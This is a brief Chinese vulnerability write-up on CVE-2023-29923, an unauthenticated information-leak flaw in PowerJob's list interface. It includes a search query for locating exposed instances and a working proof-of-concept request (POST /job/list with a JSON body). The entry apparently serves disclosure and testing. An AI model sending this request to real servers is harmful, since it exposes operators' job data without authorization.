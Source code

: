 # PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据

## 漏洞影响

<a-checkbox checked>PowerJob</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PowerJob"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1682086796259-10d346df-2520-4671-abc7-9590e9676a13.png)

验证POC

```plain
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

![img](../../../.vuepress/public/img/1682086913135-2a656856-28ff-448b-b549-cf68611b8175.png)